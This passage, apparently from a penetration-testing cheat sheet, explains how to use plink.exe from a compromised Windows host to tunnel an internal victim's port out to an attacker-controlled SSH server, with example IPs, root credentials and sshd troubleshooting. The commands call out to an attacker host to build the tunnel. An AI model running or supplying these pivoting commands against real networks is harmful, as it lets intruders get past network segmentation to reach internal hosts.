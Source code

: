 ```
cmd.exe /c echo y | plink.exe -ssh -l root -pw toor -R [attacker_ip]:[attacker_port]:[victim_ip]:[victim_port] [attacker_ip]
```

for example, suppose you have gained access at a dual-homed host and using this access, you want to access a port at another host that is not connected to the internet (you can't directly talk to it) but is accessible from the host you have access to:

- `attacker_ip` = 13.13.13.13
- `attacker_port` = 2222 (this is the final port that will accept the remote connection)
- `victim_ip` = 10.10.10.10 (IP of the inaccessible host)
- `victim_port` = 22 (Port of the inaccessible host that you will tunnel outside)

`cmd.exe /c echo y | plink.exe -ssh -l root -pw toor -R 13.13.13.13:2222:10.10.10.10:22 13.13.13.13`

### Local Tunnel

If you don't want to do an SSH remote port forwarding, but a local one instead:

```
cmd.exe /c echo y | plink.exe -ssh -l root -pw toor -R [attacker_ip]:[attacker_port]:127.0.0.1:[victim_port] [attacker_ip]
```

The above command will forward the local `victim_port` at the host that you have access to, to your `attacker_ip`:`attacker_port`

In the commands above, the `cmd.exe /c echo y |` part can be ommited if you have previously accepted the server SSH certificate.

For the above to work, you need the following configuration at your SSH server:
`GatewayPorts yes`

### Plink Troubleshooting

* Check if architecture of plink and target system are compitable (32 bit & 64 bit).
* Check the version of plink, find newest version [here](https://www.putty.org/)
* Key exchange algorithm troubleshooting: 
	* FATAL ERROR: Couldn't agree a key exchange algorithm (available: curve25519-sha256,curve25519-sha256@libssh.org,ecdh-sha2-nistp256,ecdh-sha2-nistp384,ecdh-sha2-nistp521,diffie-hellman-group16-sha512,diffie-hellman-group18-sha512,diffie-hellman-group14-sha256).
	* Solution: Try to edit **/etc/ssh/sshd_config** and put the following to the top of the file:
	```
	KexAlgorithms +diffie-hellman-group1-sha1
	Ciphers +aes128-cbc
	```
	Stop ssh from attackers machine:
	```
	systemctl stop ssh
	```
	Regenerate the keys:
	```
	ssh-keygen -A
	```
	Start ssh again:
	```
	systemctl start ssh
	```
	Use again the plink (Victim machine)
